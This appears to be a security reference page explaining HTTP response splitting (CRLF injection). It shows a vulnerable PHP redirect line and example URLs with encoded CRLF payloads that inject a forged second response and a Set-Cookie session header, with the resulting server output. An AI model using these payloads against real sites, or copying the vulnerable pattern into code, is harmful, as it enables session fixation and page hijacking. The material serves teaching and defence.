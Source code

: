 # HTTP Response splitting

## Attack tree

```text
1 Provide a URL with a complete second response, to be rendered in the browser (OR)
2 Inject HTTP headers into the response (for example a Set-Cookie header)
```

## Examples

### Provide a url with a complete second response

In the application:

    header("Location: {$_GET['url']}");

Normal send request:

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php

A browser receiving this response transparently requests the new resource (indicated in the Location header), and it 
is the response to this second request that is actually rendered in the browser:
    
    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Content-Length: 0

So now you can attack with:
    
    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0A%0D%0AHTTP%2F1.1+200+OK%0D%0AContent-Type%3A+text%2Fhtml%0D%0AContent-Length%3A+34%0D%0A%3Chtml%3E%3Cp%3EHacked%3C%2Fp%3E%3C%2Fhtml%3E

And it generates:

    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
     
    HTTP/1.1 200 OK
    Content-Type: text/html
    Content-Length: 34
     
    <html><p>Hacked</p></html>
     
    Content-Length: 0

### Inject Set-Cookie header

Or send:

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0ASet-Cookie%3A+PHPSESSID%3D1234

This results in a response that sets a cookie:

    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Set-Cookie: PHPSESSID=1234
    Content-Length: 0

And now you know the session identifier.

## Notes

HTTP Response Splitting or CRLF injection enables various attacks such as web cache poisoning, cross user defacement, 
hijacking pages with sensitive user information and cross-site scripting (XSS). 

If you can inject newline characters into the header, then you can inject new HTTP headers and by injecting an 
empty line, break out of the headers into the message body and write arbitrary content into the application's response.

You may need to use url encoding, or double url encoding, etc.

## Mitigations

* [Input validation](app-mitigations:docs/coding/input)